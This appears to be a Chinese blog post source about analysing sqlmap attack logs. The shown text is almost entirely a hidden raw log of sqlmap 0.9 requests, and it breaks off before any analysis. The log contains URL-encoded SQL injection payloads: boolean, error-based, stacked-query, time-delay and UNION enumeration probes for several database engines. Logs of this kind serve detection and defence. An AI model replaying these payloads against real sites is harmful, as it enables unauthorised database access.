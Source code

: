 ```yaml
---
layout: post
title: "sqlmap 攻击日志分析及自动化解决想法"
description: ""
category: 
tags: [sqlmap, hack]
---
```


以下内容高危，如你知道密码，请输入

<div style="display:none">
以下是我用sqlmap扫的日志，这是最简单的扫描记录
<pre><code>GET /?a=1 HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1 HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=2904 HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1%22%28%27%27%28%22%28%27%29%28 HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1%29%20AND%208676%3D9977%20AND%20%289633%3D9633 HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1%29%20AND%203925%3D3925%20AND%20%289861%3D9861 HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1%29%20AND%20636%3D7258%20AND%20%285513%3D5513 HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1%20AND%204986%3D6711 HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1%20AND%203925%3D3925 HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1%20AND%203864%3D9683 HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1%27%29%20AND%20940%3D4505%20AND%20%28%27konc%27%3D%27konc HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1%27%29%20AND%203925%3D3925%20AND%20%28%27FFCP%27%3D%27FFCP HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1%27%29%20AND%207381%3D1001%20AND%20%28%27OLcv%27%3D%27OLcv HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1%27%20AND%202327%3D9115%20AND%20%27Qlha%27%3D%27Qlha HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1%27%20AND%203925%3D3925%20AND%20%27Wlgw%27%3D%27Wlgw HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1%27%20AND%201192%3D5861%20AND%20%27mmuZ%27%3D%27mmuZ HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1%29%20AND%20%28SELECT%208251%20FROM%28SELECT%20COUNT%28%2A%29%2CCONCAT%28CHAR%2858%2C116%2C107%2C108%2C58%29%2C%28SELECT%20%28CASE%20WHEN%20%288251%3D8251%29%20THEN%201%20ELSE%200%20END%29%29%2CCHAR%2858%2C102%2C112%2C117%2C58%29%2CFLOOR%28RAND%280%29%2A2%29%29x%20FROM%20information_schema.tables%20GROUP%20BY%20x%29a%29%20AND%20%287269%3D7269 HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1%20AND%20%28SELECT%208251%20FROM%28SELECT%20COUNT%28%2A%29%2CCONCAT%28CHAR%2858%2C116%2C107%2C108%2C58%29%2C%28SELECT%20%28CASE%20WHEN%20%288251%3D8251%29%20THEN%201%20ELSE%200%20END%29%29%2CCHAR%2858%2C102%2C112%2C117%2C58%29%2CFLOOR%28RAND%280%29%2A2%29%29x%20FROM%20information_schema.tables%20GROUP%20BY%20x%29a%29 HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1%27%29%20AND%20%28SELECT%208251%20FROM%28SELECT%20COUNT%28%2A%29%2CCONCAT%28CHAR%2858%2C116%2C107%2C108%2C58%29%2C%28SELECT%20%28CASE%20WHEN%20%288251%3D8251%29%20THEN%201%20ELSE%200%20END%29%29%2CCHAR%2858%2C102%2C112%2C117%2C58%29%2CFLOOR%28RAND%280%29%2A2%29%29x%20FROM%20information_schema.tables%20GROUP%20BY%20x%29a%29%20AND%20%28%27kalg%27%3D%27kalg HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1%27%20AND%20%28SELECT%208251%20FROM%28SELECT%20COUNT%28%2A%29%2CCONCAT%28CHAR%2858%2C116%2C107%2C108%2C58%29%2C%28SELECT%20%28CASE%20WHEN%20%288251%3D8251%29%20THEN%201%20ELSE%200%20END%29%29%2CCHAR%2858%2C102%2C112%2C117%2C58%29%2CFLOOR%28RAND%280%29%2A2%29%29x%20FROM%20information_schema.tables%20GROUP%20BY%20x%29a%29%20AND%20%27bMbA%27%3D%27bMbA HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1%29%20AND%203131%3DCAST%28CHR%2858%29%7C%7CCHR%28116%29%7C%7CCHR%28107%29%7C%7CCHR%28108%29%7C%7CCHR%2858%29%7C%7C%28SELECT%20%28CASE%20WHEN%20%283131%3D3131%29%20THEN%201%20ELSE%200%20END%29%29%3A%3Atext%7C%7CCHR%2858%29%7C%7CCHR%28102%29%7C%7CCHR%28112%29%7C%7CCHR%28117%29%7C%7CCHR%2858%29%20AS%20NUMERIC%29%20AND%20%281279%3D1279 HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1%20AND%203131%3DCAST%28CHR%2858%29%7C%7CCHR%28116%29%7C%7CCHR%28107%29%7C%7CCHR%28108%29%7C%7CCHR%2858%29%7C%7C%28SELECT%20%28CASE%20WHEN%20%283131%3D3131%29%20THEN%201%20ELSE%200%20END%29%29%3A%3Atext%7C%7CCHR%2858%29%7C%7CCHR%28102%29%7C%7CCHR%28112%29%7C%7CCHR%28117%29%7C%7CCHR%2858%29%20AS%20NUMERIC%29 HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1%27%29%20AND%203131%3DCAST%28CHR%2858%29%7C%7CCHR%28116%29%7C%7CCHR%28107%29%7C%7CCHR%28108%29%7C%7CCHR%2858%29%7C%7C%28SELECT%20%28CASE%20WHEN%20%283131%3D3131%29%20THEN%201%20ELSE%200%20END%29%29%3A%3Atext%7C%7CCHR%2858%29%7C%7CCHR%28102%29%7C%7CCHR%28112%29%7C%7CCHR%28117%29%7C%7CCHR%2858%29%20AS%20NUMERIC%29%20AND%20%28%27RfWr%27%3D%27RfWr HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1%27%20AND%203131%3DCAST%28CHR%2858%29%7C%7CCHR%28116%29%7C%7CCHR%28107%29%7C%7CCHR%28108%29%7C%7CCHR%2858%29%7C%7C%28SELECT%20%28CASE%20WHEN%20%283131%3D3131%29%20THEN%201%20ELSE%200%20END%29%29%3A%3Atext%7C%7CCHR%2858%29%7C%7CCHR%28102%29%7C%7CCHR%28112%29%7C%7CCHR%28117%29%7C%7CCHR%2858%29%20AS%20NUMERIC%29%20AND%20%27uRAt%27%3D%27uRAt HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1%29%20AND%205622%3DCONVERT%28INT%2C%28CHAR%2858%29%2BCHAR%28116%29%2BCHAR%28107%29%2BCHAR%28108%29%2BCHAR%2858%29%2B%28SELECT%20%28CASE%20WHEN%20%285622%3D5622%29%20THEN%20CHAR%2849%29%20ELSE%20CHAR%2848%29%20END%29%29%2BCHAR%2858%29%2BCHAR%28102%29%2BCHAR%28112%29%2BCHAR%28117%29%2BCHAR%2858%29%29%29%20AND%20%283395%3D3395 HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1%20AND%205622%3DCONVERT%28INT%2C%28CHAR%2858%29%2BCHAR%28116%29%2BCHAR%28107%29%2BCHAR%28108%29%2BCHAR%2858%29%2B%28SELECT%20%28CASE%20WHEN%20%285622%3D5622%29%20THEN%20CHAR%2849%29%20ELSE%20CHAR%2848%29%20END%29%29%2BCHAR%2858%29%2BCHAR%28102%29%2BCHAR%28112%29%2BCHAR%28117%29%2BCHAR%2858%29%29%29 HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1%27%29%20AND%205622%3DCONVERT%28INT%2C%28CHAR%2858%29%2BCHAR%28116%29%2BCHAR%28107%29%2BCHAR%28108%29%2BCHAR%2858%29%2B%28SELECT%20%28CASE%20WHEN%20%285622%3D5622%29%20THEN%20CHAR%2849%29%20ELSE%20CHAR%2848%29%20END%29%29%2BCHAR%2858%29%2BCHAR%28102%29%2BCHAR%28112%29%2BCHAR%28117%29%2BCHAR%2858%29%29%29%20AND%20%28%27FJAP%27%3D%27FJAP HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1%27%20AND%205622%3DCONVERT%28INT%2C%28CHAR%2858%29%2BCHAR%28116%29%2BCHAR%28107%29%2BCHAR%28108%29%2BCHAR%2858%29%2B%28SELECT%20%28CASE%20WHEN%20%285622%3D5622%29%20THEN%20CHAR%2849%29%20ELSE%20CHAR%2848%29%20END%29%29%2BCHAR%2858%29%2BCHAR%28102%29%2BCHAR%28112%29%2BCHAR%28117%29%2BCHAR%2858%29%29%29%20AND%20%27wdHo%27%3D%27wdHo HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1%29%20AND%208421%3D%28SELECT%20UPPER%28XMLType%28CHR%2860%29%7C%7CCHR%2858%29%7C%7CCHR%28116%29%7C%7CCHR%28107%29%7C%7CCHR%28108%29%7C%7CCHR%2858%29%7C%7C%28SELECT%20%28CASE%20WHEN%20%288421%3D8421%29%20THEN%201%20ELSE%200%20END%29%20FROM%20DUAL%29%7C%7CCHR%2858%29%7C%7CCHR%28102%29%7C%7CCHR%28112%29%7C%7CCHR%28117%29%7C%7CCHR%2858%29%7C%7CCHR%2862%29%29%29%20FROM%20DUAL%29%20AND%20%281009%3D1009 HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1%20AND%208421%3D%28SELECT%20UPPER%28XMLType%28CHR%2860%29%7C%7CCHR%2858%29%7C%7CCHR%28116%29%7C%7CCHR%28107%29%7C%7CCHR%28108%29%7C%7CCHR%2858%29%7C%7C%28SELECT%20%28CASE%20WHEN%20%288421%3D8421%29%20THEN%201%20ELSE%200%20END%29%20FROM%20DUAL%29%7C%7CCHR%2858%29%7C%7CCHR%28102%29%7C%7CCHR%28112%29%7C%7CCHR%28117%29%7C%7CCHR%2858%29%7C%7CCHR%2862%29%29%29%20FROM%20DUAL%29 HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1%27%29%20AND%208421%3D%28SELECT%20UPPER%28XMLType%28CHR%2860%29%7C%7CCHR%2858%29%7C%7CCHR%28116%29%7C%7CCHR%28107%29%7C%7CCHR%28108%29%7C%7CCHR%2858%29%7C%7C%28SELECT%20%28CASE%20WHEN%20%288421%3D8421%29%20THEN%201%20ELSE%200%20END%29%20FROM%20DUAL%29%7C%7CCHR%2858%29%7C%7CCHR%28102%29%7C%7CCHR%28112%29%7C%7CCHR%28117%29%7C%7CCHR%2858%29%7C%7CCHR%2862%29%29%29%20FROM%20DUAL%29%20AND%20%28%27ytpV%27%3D%27ytpV HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1%27%20AND%208421%3D%28SELECT%20UPPER%28XMLType%28CHR%2860%29%7C%7CCHR%2858%29%7C%7CCHR%28116%29%7C%7CCHR%28107%29%7C%7CCHR%28108%29%7C%7CCHR%2858%29%7C%7C%28SELECT%20%28CASE%20WHEN%20%288421%3D8421%29%20THEN%201%20ELSE%200%20END%29%20FROM%20DUAL%29%7C%7CCHR%2858%29%7C%7CCHR%28102%29%7C%7CCHR%28112%29%7C%7CCHR%28117%29%7C%7CCHR%2858%29%7C%7CCHR%2862%29%29%29%20FROM%20DUAL%29%20AND%20%27KQDt%27%3D%27KQDt HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1%29%3B%20SELECT%20SLEEP%285%29%3B--%20%20AND%20%287560%3D7560 HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1%3B%20SELECT%20SLEEP%285%29%3B-- HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1%27%29%3B%20SELECT%20SLEEP%285%29%3B--%20%20AND%20%28%27AfMz%27%3D%27AfMz HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1%27%3B%20SELECT%20SLEEP%285%29%3B--%20%20AND%20%27pIKO%27%3D%27pIKO HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1%29%3B%20SELECT%20PG_SLEEP%285%29%3B--%20AND%20%283641%3D3641 HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1%3B%20SELECT%20PG_SLEEP%285%29%3B-- HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1%27%29%3B%20SELECT%20PG_SLEEP%285%29%3B--%20AND%20%28%27mTPd%27%3D%27mTPd HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1%27%3B%20SELECT%20PG_SLEEP%285%29%3B--%20AND%20%27lhez%27%3D%27lhez HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1%29%3B%20WAITFOR%20DELAY%20%270%3A0%3A5%27%3B--%20AND%20%285747%3D5747 HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1%3B%20WAITFOR%20DELAY%20%270%3A0%3A5%27%3B-- HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1%27%29%3B%20WAITFOR%20DELAY%20%270%3A0%3A5%27%3B--%20AND%20%28%27iUug%27%3D%27iUug HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1%27%3B%20WAITFOR%20DELAY%20%270%3A0%3A5%27%3B--%20AND%20%27oGtV%27%3D%27oGtV HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1%29%20AND%20SLEEP%285%29%20AND%20%283924%3D3924 HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1%20AND%20SLEEP%285%29 HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1%27%29%20AND%20SLEEP%285%29%20AND%20%28%27vnCj%27%3D%27vnCj HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1%27%20AND%20SLEEP%285%29%20AND%20%27xHdS%27%3D%27xHdS HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1%29%20AND%20851%3D%28SELECT%20851%20FROM%20PG_SLEEP%285%29%29%20AND%20%287626%3D7626 HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1%20AND%20851%3D%28SELECT%20851%20FROM%20PG_SLEEP%285%29%29 HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1%27%29%20AND%20851%3D%28SELECT%20851%20FROM%20PG_SLEEP%285%29%29%20AND%20%28%27vrAE%27%3D%27vrAE HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1%27%20AND%20851%3D%28SELECT%20851%20FROM%20PG_SLEEP%285%29%29%20AND%20%27VcUg%27%3D%27VcUg HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1%29%20WAITFOR%20DELAY%20%270%3A0%3A5%27--%20AND%20%283376%3D3376 HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1%20WAITFOR%20DELAY%20%270%3A0%3A5%27-- HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1%27%29%20WAITFOR%20DELAY%20%270%3A0%3A5%27--%20AND%20%28%27cMqq%27%3D%27cMqq HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1%27%20WAITFOR%20DELAY%20%270%3A0%3A5%27--%20AND%20%27QQdM%27%3D%27QQdM HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1%29%20AND%207586%3DDBMS_PIPE.RECEIVE_MESSAGE%28CHR%2884%29%7C%7CCHR%2897%29%7C%7CCHR%28104%29%7C%7CCHR%28110%29%2C5%29%20AND%20%284545%3D4545 HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1%20AND%207586%3DDBMS_PIPE.RECEIVE_MESSAGE%28CHR%2884%29%7C%7CCHR%2897%29%7C%7CCHR%28104%29%7C%7CCHR%28110%29%2C5%29 HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1%27%29%20AND%207586%3DDBMS_PIPE.RECEIVE_MESSAGE%28CHR%2884%29%7C%7CCHR%2897%29%7C%7CCHR%28104%29%7C%7CCHR%28110%29%2C5%29%20AND%20%28%27JNkT%27%3D%27JNkT HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1%27%20AND%207586%3DDBMS_PIPE.RECEIVE_MESSAGE%28CHR%2884%29%7C%7CCHR%2897%29%7C%7CCHR%28104%29%7C%7CCHR%28110%29%2C5%29%20AND%20%27YxKy%27%3D%27YxKy HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1%29%20UNION%20ALL%20SELECT%20NULL%23%20AND%20%28771%3D771 HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1%29%20UNION%20ALL%20SELECT%20NULL%2C%20NULL%23%20AND%20%282265%3D2265 HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1%29%20UNION%20ALL%20SELECT%20NULL%2C%20NULL%2C%20NULL%23%20AND%20%286668%3D6668 HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1%29%20UNION%20ALL%20SELECT%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%23%20AND%20%283039%3D3039 HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1%29%20UNION%20ALL%20SELECT%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%23%20AND%20%287237%3D7237 HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1%29%20UNION%20ALL%20SELECT%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%23%20AND%20%281361%3D1361 HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1%29%20UNION%20ALL%20SELECT%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%23%20AND%20%287315%3D7315 HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1%29%20UNION%20ALL%20SELECT%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%23%20AND%20%286174%3D6174 HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1%29%20UNION%20ALL%20SELECT%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%23%20AND%20%285136%3D5136 HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1%29%20UNION%20ALL%20SELECT%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%23%20AND%20%282494%3D2494 HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1%20UNION%20ALL%20SELECT%20NULL%23 HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1%20UNION%20ALL%20SELECT%20NULL%2C%20NULL%23 HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1%20UNION%20ALL%20SELECT%20NULL%2C%20NULL%2C%20NULL%23 HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1%20UNION%20ALL%20SELECT%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%23 HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1%20UNION%20ALL%20SELECT%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%23 HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1%20UNION%20ALL%20SELECT%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%23 HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1%20UNION%20ALL%20SELECT%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%23 HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1%20UNION%20ALL%20SELECT%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%23 HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1%20UNION%20ALL%20SELECT%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%23 HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1%20UNION%20ALL%20SELECT%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%23 HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1%27%29%20UNION%20ALL%20SELECT%20NULL%23%20AND%20%28%27nymA%27%3D%27nymA HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1%27%29%20UNION%20ALL%20SELECT%20NULL%2C%20NULL%23%20AND%20%28%27ijmk%27%3D%27ijmk HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1%27%29%20UNION%20ALL%20SELECT%20NULL%2C%20NULL%2C%20NULL%23%20AND%20%28%27oFxP%27%3D%27oFxP HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1%27%29%20UNION%20ALL%20SELECT%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%23%20AND%20%28%27CWYo%27%3D%27CWYo HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1%27%29%20UNION%20ALL%20SELECT%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%23%20AND%20%28%27lxqZ%27%3D%27lxqZ HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1%27%29%20UNION%20ALL%20SELECT%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%23%20AND%20%28%27DWNP%27%3D%27DWNP HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1%27%29%20UNION%20ALL%20SELECT%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%23%20AND%20%28%27byrs%27%3D%27byrs HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1%27%29%20UNION%20ALL%20SELECT%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%23%20AND%20%28%27KEvQ%27%3D%27KEvQ HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1%27%29%20UNION%20ALL%20SELECT%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%23%20AND%20%28%27OLyg%27%3D%27OLyg HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1%27%29%20UNION%20ALL%20SELECT%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%23%20AND%20%28%27TOsV%27%3D%27TOsV HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1%27%20UNION%20ALL%20SELECT%20NULL%23%20AND%20%27mDCu%27%3D%27mDCu HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1%27%20UNION%20ALL%20SELECT%20NULL%2C%20NULL%23%20AND%20%27VTxz%27%3D%27VTxz HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1%27%20UNION%20ALL%20SELECT%20NULL%2C%20NULL%2C%20NULL%23%20AND%20%27YmTa%27%3D%27YmTa HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1%27%20UNION%20ALL%20SELECT%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%23%20AND%20%27MMix%27%3D%27MMix HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1%27%20UNION%20ALL%20SELECT%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%23%20AND%20%27bXGh%27%3D%27bXGh HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1%27%20UNION%20ALL%20SELECT%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%23%20AND%20%27DuTO%27%3D%27DuTO HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1%27%20UNION%20ALL%20SELECT%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%23%20AND%20%27JVBX%27%3D%27JVBX HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1%27%20UNION%20ALL%20SELECT%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%23%20AND%20%27xxHC%27%3D%27xxHC HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1%27%20UNION%20ALL%20SELECT%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%23%20AND%20%27zReF%27%3D%27zReF HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1%27%20UNION%20ALL%20SELECT%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%23%20AND%20%27iOvN%27%3D%27iOvN HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1%29%20UNION%20ALL%20SELECT%20NULL--%20AND%20%282876%3D2876 HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1%29%20UNION%20ALL%20SELECT%20NULL%2C%20NULL--%20AND%20%284969%3D4969 HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1%29%20UNION%20ALL%20SELECT%20NULL%2C%20NULL%2C%20NULL--%20AND%20%281601%3D1601 HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1%29%20UNION%20ALL%20SELECT%20NULL%2C%20NULL%2C%20NULL%2C%20NULL--%20AND%20%285858%3D5858 HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1%29%20UNION%20ALL%20SELECT%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL--%20AND%20%2867%3D67 HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1%29%20UNION%20ALL%20SELECT%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL--%20AND%20%286756%3D6756 HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1%29%20UNION%20ALL%20SELECT%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL--%20AND%20%283876%3D3876 HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1%29%20UNION%20ALL%20SELECT%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL--%20AND%20%281001%3D1001 HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1%29%20UNION%20ALL%20SELECT%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL--%20AND%20%287414%3D7414 HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1%29%20UNION%20ALL%20SELECT%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL--%20AND%20%28767%3D767 HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1%20UNION%20ALL%20SELECT%20NULL-- HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1%20UNION%20ALL%20SELECT%20NULL%2C%20NULL-- HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
